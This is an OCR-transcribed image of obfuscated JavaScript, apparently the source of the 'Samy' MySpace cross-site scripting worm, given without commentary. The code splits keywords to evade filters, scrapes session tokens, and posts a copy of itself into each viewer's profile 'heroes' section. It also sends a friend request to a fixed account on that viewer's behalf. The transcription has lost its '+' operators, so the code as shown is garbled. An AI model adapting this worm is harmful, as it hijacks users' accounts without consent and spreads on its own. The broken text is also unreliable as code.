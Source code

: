 ```javascript
getFromURL(BF,BG){var T;if(BG=='Mytoken'){T=B}else{T='&'}var 
U=BG '=';var V=BF.indexOf(U) U.length;var 
W=BF.substring(V,V 1024);var X=W.indexOf(T);var 
Y=W.substring(0,X);return Y}function getXMLObj(){var 
Z=false;if(window.XMLHttpRequest){try{Z=new 
XMLHttpRequest()}catch(e){Z=false}}else 
if(window.ActiveXObject){try{Z=new 
ActiveXObject('Msxml2.XMLHTTP')}catch(e){try{Z=new 
ActiveXObject('Microsoft.XMLHTTP')}catch(e){Z=false}}}return Z}var 
AA=g();var AB=AA.indexOf('m' 'ycode');var 
AC=AA.substring(AB,AB 4096);var AD=AC.indexOf('D' 'IV');var 
AE=AC.substring(0,AD);var 
AF;if(AE){AE=AE.replace('jav' 'a',A 'jav' 'a');AE=AE.replace('exp' 'r)','exp' 'r)' A);AF='
 but 
most of all, samy is my hero. <d' 'iv id=' AE 'D' 'IV>'}var 
AG;function getHome(){if(J.readyState!=4){return}var 
AU=J.responseText;AG=findIn(AU,'P' 'rofileHeroes','</td>');AG=AG.substring(61,AG.length);if(AG.indexOf('samy')==-1){if(AF){AG =AF;var
 
AR=getFromURL(AU,'Mytoken');var AS=new 
Array();AS['interestLabel']='heroes';AS['submit']='Preview';AS['interest']=AG;J=getXMLObj();httpSend('/index.cfm?fuseaction=profile.previewInterests&Mytoken=' AR,postHero,'POST',paramsToString(AS))}}}function
 
postHero(){if(J.readyState!=4){return}var AU=J.responseText;var 
AR=getFromURL(AU,'Mytoken');var AS=new 
Array();AS['interestLabel']='heroes';AS['submit']='Submit';AS['interest']=AG;AS['hash']=getHiddenParameter(AU,'hash');httpSend('/index.cfm?fuseaction=profile.processInterests&Mytoken=' AR,nothing,'POST',paramsToString(AS))}function
 
main(){var AN=getClientFID();var 
BH='/index.cfm?fuseaction=user.viewProfile&friendID=' AN '&Mytoken=' L;J=getXMLObj();httpSend(BH,getHome,'GET');xmlhttp2=getXMLObj();httpSend2('/index.cfm?fuseaction=invite.addfriend_verify&friendID=11851658&Mytoken=' L,processxForm,'GET')}function
 
processxForm(){if(xmlhttp2.readyState!=4){return}var 
AU=xmlhttp2.responseText;var AQ=getHiddenParameter(AU,'hashcode');var 
AR=getFromURL(AU,'Mytoken');var AS=new 
Array();AS['hashcode']=AQ;AS['friendID']='11851658';AS['submit']='Add to
 
Friends';httpSend2('/index.cfm?fuseaction=invite.addFriendsProcess&Mytoken=' AR,nothing,'POST',paramsToString(AS))}function
 
httpSend2(BH,BI,BJ,BK){if(!xmlhttp2){return 
false}eval('xmlhttp2.onr' 'eadystatechange=BI');xmlhttp2.open(BJ,BH,true);if(BJ=='POST'){xmlhttp2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xmlhttp2.setRequestHeader('Content-Length',BK.length)}xmlhttp2.send(BK);return
 
true}"></DIV>
```
